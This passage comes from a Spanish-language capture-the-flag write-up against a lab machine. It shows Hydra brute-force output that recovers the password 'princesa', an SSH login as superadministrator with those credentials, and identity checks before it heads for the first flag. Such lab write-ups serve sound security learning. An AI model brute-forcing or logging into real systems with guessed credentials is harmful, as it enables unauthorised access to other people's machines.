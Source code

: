 ```bash
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 17 final worker threads did not complete until end.
[ERROR] 17 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-02 11:32:53
```
¡Bingo! Encontramos la conseña `princesa`

## 4.Acceso al objetivo

Probamos las credenciales obtenidas en el servicio SSH.

```bash
┌──(root㉿v4lcyfer)-[/home/kali/Downloads]
└─# ssh superadministrator@192.168.1.49
superadministrator@192.168.1.49's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-51-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Feb  2 04:36:04 PM UTC 2025

  System load:            0.16
  Usage of /:             14.1% of 49.21GB
  Memory usage:           32%
  Swap usage:             0%
  Processes:              219
  Users logged in:        0
  IPv4 address for ens33: 192.168.1.49
  IPv6 address for ens33: 2001:1388:18a1:ab1a:20c:29ff:fef8:bddf

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

1 update can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sun Feb  2 12:24:10 2025 from 192.168.1.50
superadministrator@thehackerslabs-bocatacalamares:~$ whoami
superadministrator
superadministrator@thehackerslabs-bocatacalamares:~$ id
uid=1001(superadministrator) gid=1001(superadministrator) groups=1001(superadministrator),100(users)
superadministrator@thehackerslabs-bocatacalamares:~$ 
```
Vayamos por la primera flag 🚩.
